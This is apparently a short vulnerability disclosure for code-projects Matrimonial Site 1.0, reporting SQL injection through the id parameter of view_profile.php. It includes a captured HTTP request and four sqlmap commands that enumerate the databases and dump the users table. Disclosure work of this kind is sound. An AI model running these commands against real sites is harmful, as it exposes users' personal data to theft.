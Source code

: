 # tesc
Vulnerability Report: SQL Injection in code-projects Matrimonial Site 1.0
## Affected Component
- **File**: `/view_profile.php?id=1`
- **Vulnerability**: SQL Injection via the `id` parameter.

---

## Captured HTTP Request
```http
GET /view_profile.php?id=1 HTTP/1.1
Host: localhost
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/search-id.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=pvm9s24kls26lgqj0730spgclj
Connection: keep-alive

## SQL Injection
Using sqlmap tool:
1. Enumerate Databases
python sqlmap.py -r 1 -p id --batch --dbs
2. Select Target Database (matrimony)
python sqlmap.py -r 1 -p id --batch -D matrimony
3. List Tables in matrimony Database
python sqlmap.py -r 1 -p id --batch -D matrimony -tables
4. Dump Data from users Table
python sqlmap.py -r 1 -p id --batch -D matrimony -T users --dump
This will lead to leakage of user information.
